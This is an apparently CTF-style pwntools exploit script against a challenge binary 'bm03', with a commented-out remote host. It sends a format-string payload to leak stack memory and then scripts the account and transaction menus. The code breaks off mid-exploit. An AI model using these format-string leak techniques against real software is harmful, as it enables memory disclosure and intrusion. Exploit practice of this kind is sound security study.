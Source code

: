 ```python
from pwn import *

context.terminal = ['termite', '-e']

account_id_counter = 0

def recv_input():
	x = p.recvuntil(":>")
	# print(x)

p = process('./bm03', env = {"TERM": "xterm-256color", "SHELL": "/usr/bin/zsh"})
# p = remote('bm03.allyourbases.co', 9010)
# p = gdb.debug('./bm03', env = {"TERM": "xterm-256color", "SHELL": "/usr/bin/zsh"})

e = ELF('./bm03')

recv_input()
p.sendline('2')
recv_input()

# creating user to leak esp

p.sendline('%x.%{}$x'.format(91*4)) # 91*4 is stack offset to something in program memory 
recv_input()
p.sendline('1')
recv_input()
p.sendline('1')
recv_input()
p.sendline('1')
recv_input()


# log in
p.sendline('1')
recv_input()
p.sendline('1')
recv_input()
p.sendline('1')
recv_input()

# create account 1

p.sendline('1')
recv_input()
p.sendline('1')
recv_input()

# create account 2

p.sendline('1')
recv_input()
p.sendline('1')
recv_input()

p.sendline('a')

# make transaction

p.sendline('2')
recv_input()

p.sendline(str(account_id_counter))
account_id_counter += 1
```